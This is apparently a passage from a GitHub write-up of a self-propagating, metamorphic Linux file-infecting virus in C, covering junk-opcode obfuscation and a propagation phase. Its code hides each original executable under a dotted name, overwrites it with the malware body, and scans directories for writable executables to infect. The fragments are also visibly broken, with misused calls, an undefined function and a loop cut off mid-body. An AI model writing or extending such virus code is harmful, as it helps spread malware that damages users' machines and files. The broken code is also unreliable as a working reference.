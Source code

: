 Also, when inserting the replacement junk assembly opcodes they aren't "any random opcodes", because this could cause the program to crash or unexpected behaviour to occur. Opcodes are chosen at random from within a certain range, which have been chosen to ensure they have no impact on the successful operation of the rest of the program code. The range is small because this is only an example. The choice and range of opcodes used could of course be expanded.

###  Propagation Phase

- Executes a bash command to execute and hide an original executable file and Embeds the malware in the executable.
 
```c
/* hide an original executable file */
void hide_file(const char *bash_code, const char *filename)
{
	JUNK_ASM;
	int cmd_len = strlen(bash_code) + strlen(filename) + 1;
	
	sprintf(bash_code, filename, filename);
}

/* Embeds the malware  */
void embed_code(uint8_t *file_data, uint32_t file_len,  const char *filename)
{
  JUNK_ASM;

    copy_and_hide_file("cp %s .one_%s", filename);    
    execute_bash("chmod +x %s",filename);

    write_file(file_data, file_len,  filename);           

}
```

- Lists files in passed in directory path 

```c
void propagate(const char *path, const char *exclude) 
{
	JUNK_ASM;

DIR *dir;
struct dirent *ent;

// Open directory stream
dir = opendir ("./"); 
if (dir != NULL) {

// Iterate over all files in the current directory
while ((ent = readdir (dir)) != NULL) {
// Select regular files only, not DT_DIR (directories) nor DT_LNK (links)
if (ent->d_type == DT_REG)
{
// Select executable and writable files that can be infected
if (access(ent->d_name, X_OK) == 0 && access(ent->d_name, W_OK) == 0)
{
// Ignore the executable that is running the program
if (strstr(exclude, ent->d_name) != NULL)
{
original_executable = ent->d_name; 
		}
	}
}
```
